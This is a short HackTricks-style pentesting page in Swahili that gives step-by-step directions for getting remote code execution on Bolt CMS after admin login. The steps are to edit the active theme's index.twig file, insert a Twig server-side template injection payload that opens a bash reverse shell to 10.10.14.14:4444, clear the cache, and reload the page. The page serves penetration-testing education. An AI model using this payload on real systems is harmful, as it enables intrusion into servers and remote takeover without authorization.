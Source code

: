 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Baada ya kuingia kama admin (nenda kwenye /bot kupata kiashiria cha kuingia), unaweza kupata RCE katika Bolt CMS:

- Chagua `Configuration` -> `View Configuration` -> `Main Configuration` au nenda kwenye URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
- Angalia thamani ya mada

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Chagua `File management` -> `View & edit templates`
- Chagua msingi wa mada ulioonekana katika hatua ya awali (`base-2021` katika kesi hii) na uchague `index.twig`
- Katika kesi yangu hii iko kwenye URL path /bolt/file-edit/themes?file=/base-2021/index.twig
- Weka payload yako katika faili hii kupitia [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), kama: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Na uhifadhi mabadiliko

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Futa cache katika `Maintenance` -> `Clear the cache`
- Fikia tena ukurasa kama mtumiaji wa kawaida, na payload inapaswa kutekelezwa

{{#include ../../banners/hacktricks-training.md}}
